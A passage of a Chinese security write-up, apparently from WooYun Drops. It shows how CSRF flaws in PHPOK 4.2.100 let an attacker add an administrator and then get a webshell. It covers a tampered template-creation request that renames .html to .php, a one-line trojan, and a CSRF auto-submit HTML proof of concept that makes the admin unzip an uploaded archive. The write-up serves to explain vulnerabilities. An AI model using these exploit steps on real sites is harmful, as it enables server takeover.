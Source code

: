 管理员在登录的情况下访问攻击者的页面之后，如图：

![](http://drops.javaweb.org/uploads/images/f7e4d3bf96b5d91697c6c53322ddf5354763dab2.jpg)

可以看到，成功添加了一名管理员。

攻击到这里就结束了吗？并没有！攻击者利用CSRF漏洞成功进入了后台，他还要想办法GetShell！

在后台风格管理-创建模板文件的地方添加一个模板，通过抓包改包的方式绕过前端对文件类型的判断，如图：

![](http://drops.javaweb.org/uploads/images/5d04cf24bbe82b5e6b647f4952146926402ffe36.jpg)

把`GET /phpok/admin.php?c=tpl&f=create&id=1&folder=/&type=file&title=wooyun.html`

改为`GET /phpok/admin.php?c=tpl&f=create&id=1&folder=/&type=file&title=wooyun.php`

可以看到成功添加了.php文件：

![](http://drops.javaweb.org/uploads/images/1df9e5ca6de5f8f9c1d16f1b93fe9346b73fdb2b.jpg)

然后在编辑文件内容为一句话木马即可：

![](http://drops.javaweb.org/uploads/images/1462b1c936acedc8b4e5e7ff101efbabd15975af.jpg)

在此次攻击中，攻击者最后利用后台添加模板处的限制不严格拿到了Webshell，但在此之前使攻击者得以进入后台的却是CSRF漏洞，由此可以看到CSRF在这次攻击中的重要性。

（2）还是4.2.100...

刚才我们是通过CSRF先进入后台，然后利用后台的其他漏洞GetShell,这次我们直接在前台利用CSRF漏洞去GetShell怎么样？

phpok的前台可以上传.zip文件，我们把木马文件test.php压缩为test.zip；

注册一个账号，进入修改资料页面；

选择一个正常的图片，截获数据，如图：

![](http://drops.javaweb.org/uploads/images/5d0c82d2480052d6f37d87a0ccbb612a4b089508.jpg)

![](http://drops.javaweb.org/uploads/images/afeb77b210d30607d9d72271d5004112e2666152.jpg)

然后修改数据，如图：

![](http://drops.javaweb.org/uploads/images/dc96bb7d1c6dcc99d1b95984cb582b50e391f360.jpg)

成功上传.zip文件，记录下文件id号，这里是739。

在后台的程序升级-ZIP离线包升级中的升级操作存在CSRF漏洞，演示如图：

![](http://drops.javaweb.org/uploads/images/f0b4418a2ba3cf0360464a779daa08dbeb783c8b.jpg)

于是攻击者可以构造如下页面：

```
<html>
    <form action="http://localhost//phpok/admin.php?c=update&f=unzip" id="poc" name="poc" method="post">
        <input type="hidden" name="zipfile" value=""/>
        <input type="hidden" name="file" value=""/>
        <input type="submit" name="up" value="submit"/>
    </form>
    <script>
        var t = document.poc;
        t.zipfile.value="739";
        t.file.value="739";
        document.poc.submit();
    </script>
</html>

```
